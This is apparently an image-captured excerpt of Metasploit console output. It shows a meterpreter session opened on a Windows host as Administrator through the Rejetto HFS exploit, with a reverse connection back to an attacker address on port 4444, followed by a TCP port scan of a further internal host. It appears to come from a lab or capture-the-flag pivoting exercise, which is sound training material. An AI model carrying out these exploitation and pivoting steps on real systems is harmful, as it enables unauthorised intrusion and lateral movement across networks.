 ```
    -q        Quiet mode
    -s <opt>  Run a script or module on the session given with -i, or all
    -t <opt>  Set a response timeout (default: 15)
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6

msf6 exploit(windows/http/rejetto_hfs_exec) > sessions -n victim-1 -i 1
[*] Session 1 named to victim-1
msf6 exploit(windows/http/rejetto_hfs_exec) > sessions

Active sessions
===============

  Id  Name      Type                     Information                                      Connection
  --  ----      ----                     -----------                                      ----------
  1   victim-1  meterpreter x86/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.3:4444 -> 10.0.28.68:49220 (10.0.28.68)

```

```
msf6 exploit(windows/http/rejetto_hfs_exec) > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > show options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   THREADS      1                yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.0.17.144
RHOSTS => 10.0.17.144
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 1-100
PORTS => 1-100
msf6 auxiliary(scanner/portscan/tcp) > exploit

[+] 10.0.17.144:          - 10.0.17.144:80 - TCP OPEN
[*] 10.0.17.144:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
